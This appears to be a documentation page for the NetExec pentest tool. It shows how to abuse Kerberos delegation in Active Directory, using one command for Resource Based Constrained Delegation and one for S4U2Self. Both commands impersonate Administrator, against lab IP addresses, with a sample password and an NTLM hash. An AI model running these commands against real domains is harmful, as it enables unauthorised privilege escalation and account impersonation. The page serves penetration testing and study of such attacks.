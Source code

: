 ```yaml
---
description: Resource Based Constrained Delegation (RBCD) and
---
```


# 🆕 Delegation

## RBCD

If you have an object with the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute set to an account you control you can use the impersonate flag inside NetExec to automatically execute the Resource Based Constrained Delegation and impersonate any user:

{% code fullWidth="false" %}
```
nxc smb 192.168.56.11 -u jon.snow -p iknownothing --delegate Administrator
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>RBCD with NetExec</p></figcaption></figure>

## S4U2Self

If you have a computer account you can (nearly) always get local administrator with the s4u2self extension:

```
nxc smb 192.168.56.10 -u 'KINGSLANDING$' -H 220fc1990391bdc183d1a68c389c0229 --delegate Administrator --self
```

<figure><img src="../../.gitbook/assets/self (2).png" alt=""><figcaption><p>S4U2Self abuse using NetExecs delegation feature</p></figcaption></figure>



## Resources:

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd" %}

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" %}
